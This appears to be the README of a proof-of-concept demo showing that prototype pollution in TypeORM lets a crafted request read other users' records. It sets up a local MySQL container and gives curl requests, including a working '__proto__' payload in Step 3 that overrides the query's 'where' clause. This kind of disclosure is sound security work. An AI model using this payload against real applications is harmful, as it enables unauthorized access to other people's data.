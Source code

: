 # Prototype Pollution in TypeORM 

Prototype Pollution in TypeORM can lead to SQL Injection attacks in both MongoDB and MySQL types of databases, as well as Denial of Service or escalate to other types of attacks for a vulnerable Node.js web application.

## Requirements

You'll need a MySQL server running. Try this:

```sh
# use mysql:5 as that still supports the good old native password mechanism to login
# and keep things simple for the demo
docker run -p3306:3306 --rm --name mysqld -e MYSQL_ROOT_PASSWORD=root mysql:5
```

For the MySQL client (to browse database records and such):
```sh
docker exec -it mysqld mysql -uroot -p
```

## Setup

The root file `./typeorm-db.js` gets called when the app starts and seeds the database with 2 sample users.

## Exploit scenario

### Step 1 - Normal request

You can create new users via POST /users

```sh
curl --request POST \
  --url http://localhost:3001/users \
  --header 'content-type: application/json' \
  --data '{
	"name": "a",
	"address": "vvv",
	"role": "user"
}'
```

### Step 2 - A request to get your own profile

A request to get your own profile always results in your own user (right now hard-coded with id:1)

```sh
curl --request GET \
  --url http://localhost:3001/users \
  --header 'content-type: application/json'
```

### Step 3 - Poison the Object's prototype

We now send a request that creates a user, but poison the prototype chain through an insecure
merge of objects that happens within TypeORM's code, and results in `Object` having a `where` object property.

```sh
curl --request POST \
  --url http://localhost:3001/users \
  --header 'content-type: application/json' \
  --data '{
	"name": "a",
	"address": {
		"__proto__": {
			"where": {
				"id": "2",
				"where": null
			}
		}
	}
}'
```

### Step 4 - Fetch your profile again

Now go back to Step 1 and fetch the user profile again.
Now you get profile 2 instead of the hard-code profile id 1. Why does it happen?
Because with TypeORM's `where` clause takes precendence over the `id` specifier and we're now able to enumerate and get every account id we want.
